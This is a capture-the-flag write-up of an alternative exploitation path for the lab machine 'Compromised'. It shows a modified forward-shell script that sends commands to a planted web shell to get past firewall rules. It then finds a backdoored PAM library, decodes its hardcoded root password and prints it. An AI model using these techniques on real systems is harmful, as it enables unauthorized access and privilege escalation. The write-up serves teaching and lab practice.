

# Alternative way to exploit Compromised

## Bypassing Firewall

Instead of enumerating the system, the **Iptables firewall rules** can be bypassed by using a [script from IppSec](https://github.com/IppSec/forward-shell) with some modifications:
```
20: self.url = r"http://10.10.10.207/shop/vqmod/xml/shell.php"
(...)
63: data = {'cmd': payload}
64: try:
65:     r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)
(...)
```

Executing the Python script and command execution works as _www-data_:
```
python3 forward-shell.py

[*] Session ID: 95210
[*] Setting up fifo shell on target
[*] Setting up read thread

Please Subscribe> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation to root

It is possible to escalate privileges from the user _mysql_ to root.

The directory _/lib_ is often used for installing **Rootkits** or other backdoors, the attacker might have changed something there.  
Searching for files in _/lib_, that were modified by users:
```
find /lib -type f -printf "%T+ %p\n" | grep -v 0000000000
```

For persistence the file _/lib/x86_64-linux-gnu/security/pam_unix.so_ is suspicious to be changed by users.
This is a library for the **Pluggable Authentication Modules (PAM)** that allows different authentication methods.

Downloading the file to analyze it:
```
scp -i compromised.key mysql@10.10.10.207:/lib/x86_64-linux-gnu/security/pam_unix.so .
```

As this is a shared library, it can be analyzed with any decompiler like **Ghidra**.
It has many functions, but when researching **PAM backdoors**, there is a [GitHub repository](https://github.com/zephrax/linux-pam-backdoor) that describes how it might work.

According to [backdoor.patch](https://github.com/zephrax/linux-pam-backdoor/blob/master/backdoor.patch), it uses something on line 170 of _pam_unix_auth.c_.
These lines belong to the function _pam_sm_authenticate_, which can be found in the decompiler:



```
0x4533557e656b6c7a
0x2d326d3238766e
```

Decoding it with [CyberChef](https://gchq.github.io/CyberChef):
```
From Hex
  Delimeter: Auto
Swap endianness
  Data format: Raw
  Word length: 8
  Pad incomplete words: False
```
```
zlke~U3Env82m2-
```

The password works with `su -` when switching users to root!
